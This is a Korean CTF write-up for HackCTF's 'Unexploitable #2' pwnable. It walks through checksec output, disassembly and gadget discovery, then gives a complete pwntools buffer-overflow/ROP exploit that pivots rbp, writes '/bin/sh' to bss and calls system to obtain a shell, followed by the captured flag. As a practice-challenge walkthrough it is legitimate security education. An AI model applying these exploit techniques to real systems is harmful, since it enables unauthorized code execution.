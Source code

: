 #Unexploitable #2

---

우선 보호기법을 살펴보자.
<pre>
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
</pre>

NX만 걸려있다.

`main()`의 코드를 살펴보자.
<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Hard RTL ha? You don't even have fflush@dynstr!\n", 1uLL, 0x30uLL, _bss_start);
  fgets(&s, 64, stdin);
  return 0;
}
</pre>

0x40bytes를 입력받아서 bof취약점이 발생한다. Unexploitable #1에서는 문자열에서 fflush의 sh를 이용하여 쉘을 따냈었는데 이번에는 그러한 문자열이 보이지 않는다.

<pre>
LOAD:0000000000400238	0000001C	C	/lib64/ld-linux-x86-64.so.2
LOAD:0000000000400399	0000000A	C	libc.so.6
LOAD:00000000004003A3	00000006	C	stdin
LOAD:00000000004003A9	00000006	C	fgets
LOAD:00000000004003AF	00000007	C	stdout
LOAD:00000000004003B6	00000007	C	system
LOAD:00000000004003BD	00000007	C	fwrite
LOAD:00000000004003C4	00000008	C	setvbuf
LOAD:00000000004003CC	00000012	C	__libc_start_main
LOAD:00000000004003DE	0000000F	C	__gmon_start__
LOAD:00000000004003ED	0000000C	C	GLIBC_2.2.5
.rodata:0000000000400798	0000001A	C	use this system gadget :D
.rodata:00000000004007B8	00000031	C	Hard RTL ha? You don't even have fflush@dynstr!\n
.eh_frame:000000000040088F	00000006	C	;*3$\"

</pre>

"Hard RTL ha? You don't even have fflush@dynstr!\n" 문자열 중간에 0을 삽입하여 sh만 골라서 쓰려고 하였는데 해당 공간에는 NX때문에 쓰기권한이 없어서 불가능하다.

때문에 data영역에 "/bin/sh\x00"을 새로 쓴 다음 이를 인자로 넘겨주어 system함수를 실행시켜야 겠다. 다음과 같이 system함수의 plt는 주어져있다.

<pre>
int gift()
{
  return system("use this system gadget :D");
}
</pre>

data영역에 "/bin/sh\x00" 문자열을 쓰는 것은 다음을 이용하면 된다.

<pre>
gdb-peda$ pd main
Dump of assembler code for function main:
...
   0x00000000004006ee <+98>:	mov    rdx,QWORD PTR [rip+0x20096b]        # 0x601060 <stdin@@GLIBC_2.2.5>
   0x00000000004006f5 <+105>:	lea    rax,[rbp-0x10]
   0x00000000004006f9 <+109>:	mov    esi,0x40
   0x00000000004006fe <+114>:	mov    rdi,rax
   0x0000000000400701 <+117>:	call   0x400540 <fgets@plt>
=> 0x0000000000400706 <+122>:	mov    eax,0x0
   0x000000000040070b <+127>:	leave  
   0x000000000040070c <+128>:	ret    
End of assembler dump.
</pre>

`main()+98`부터 살펴보자. 만약에 rbp에 내가 원하는 주소+0x10을 넣을 수 있다면 rdi에 내가 원하는 주소를 넣을수 있기 때문에 원하는 공간에 원하는 값을 쓸 수 있게 된다. 그리고 이 rbp는 `main()`이 끝날 때 leave를 이용해서 조작할 수 있다.

**main\_98=0x4006ee**


또한 gift의 call system gadget과 bss영역의 주소, 그리고 pop rdi gadget이 필요하다. 이는 다음과 같다.

<pre>
gdb-peda$ pd gift
Dump of assembler code for function gift:
   0x0000000000400676 <+0>:	push   rbp
   0x0000000000400677 <+1>:	mov    rbp,rsp
   0x000000000040067a <+4>:	mov    edi,0x400798
   0x000000000040067f <+9>:	mov    eax,0x0
   0x0000000000400684 <+14>:	call   0x400520 <system@plt>
   0x0000000000400689 <+19>:	nop
   0x000000000040068a <+20>:	pop    rbp
   0x000000000040068b <+21>:	ret    
End of assembler dump.
</pre>
**gift=0x400684**

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/30.Unexploitable_2$ objdump -h Unexploitable_2 | grep "bss"
 25 .bss          00000020  0000000000601050  0000000000601050  00001050  2**4
</pre>

**bss=0x601050**

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/30.Unexploitable_2$ ROPgadget --binary Unexploitable_2 | grep "pop rdi"
0x0000000000400773 : pop rdi ; ret
</pre>

**pop\_rdi\_ret=0x400773**


다음과 같은 익스코드를 통해서 쉘을 따낼 수 있었다.

<pre>
from pwn import*

#p=process('./Unexploitable_2')
p=remote('ctf.j0n9hyun.xyz',3029)
#gdb.attach(p)

main_98=0x4006ee
pop_rbp_ret=0x4005e0
gift=0x400684
bss=0x601050+0x900
pop_rdi_ret=0x400773

p.recvuntil('!\n')

payload='A'*16
payload+=p64(bss+0x10)
payload+=p64(main_98)

p.sendline(payload)

payload2='/bin/sh\x00'
payload2+='A'*16
payload2+=p64(pop_rdi_ret)
payload2+=p64(bss)
payload2+=p64(gift)

p.sendline(payload2)

p.interactive()
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/30.Unexploitable_2$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3029: Done
[*] Switching to interactive mode
$ whoami
attack
$ cat flag
HackCTF{u5e_syst3m_t0_get_le4k}
</pre>

**flag: 
HackCTF{u5e\_syst3m\_t0\_get\_le4k}**

